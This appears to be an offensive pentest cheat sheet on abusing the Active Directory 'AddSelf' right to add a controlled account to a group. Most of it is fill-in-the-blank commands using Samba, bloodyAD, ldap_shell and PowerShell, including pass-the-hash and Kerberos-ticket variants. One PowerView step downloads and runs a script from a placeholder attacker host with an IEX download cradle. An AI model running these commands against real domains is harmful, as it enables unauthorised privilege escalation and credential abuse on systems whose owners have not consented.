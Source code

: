 # Abusing AddSelf

If an user have AddSelf over a group can add itself inside the group. This can be done with multiple tools.

### From Linux (enternally recomended):

Samba tools -> `net rpc group addmem '<target_group>' '<target_user>' -U '<domain>'/'<controlled_user>'%'<password>' -S '<dc-ip>'`

BloodyAD -> `bloodyAD --host '<dc-ip>' -d '<domain>' -u '<user>' -p '<password>' add groupMember '<group>' '<user>'`

Ldap_shell -> `ldap_shell <domain>/<user>:<password> -dc-ip <ip>`

`add_user_to_group <user> <group>`

<br>

With PASS THE HASH option:

Samba tools -> `pth-net rpc group addmem '<target_group>' '<target_user>' -U '<domain>'/'<controlled_user>'%'LMhash':'NThash' -S '<dc ip>'`

BloodyAD -> `bloodyAD --host '<dc-ip>' -d '<domain>' -u '<user>' -p ':<nt_hash>' add groupMember '<group>' '<user>'`

Ldap_shell -> `ldap_shell '<domain>/<user>:' -hashes ffffffffffffffffffffffffffffffff:<nt_hash> -dc-ip <ip>`

`add_user_to_group <user> <group>`

<br>

With KERBEROS auth:

Ldap_shell -> `gettgt.py <domain>/<user>:<password>`

`export KRB5CCNAME=<ticket_name>`

`ldap_shell '<domain>/<user>:<password>' -dc-host <machine.domain> -k`

`add_user_to_group <user> <group>`

<br>

### From Windows (internally):

`net group <group> <user> /add /domain`

Additionally can be done with Active directory module (powershell module):

`Add-ADGroupMember -Identity '<group>' -Members '<user>'`

Also is possible with powerview module:

Load module -> `IEX (new-object net.webclient).downloadstring('http://<your_evil_ip_or_domain>/powerview.ps1')`

`Add-DomainGroupMember -Identity '<group>' -Members '<user>'`

<br>

### Articles:

https://www.hackingarticles.in/addself-active-directory-abuse/

https://bloodhound.specterops.io/resources/edges/add-self





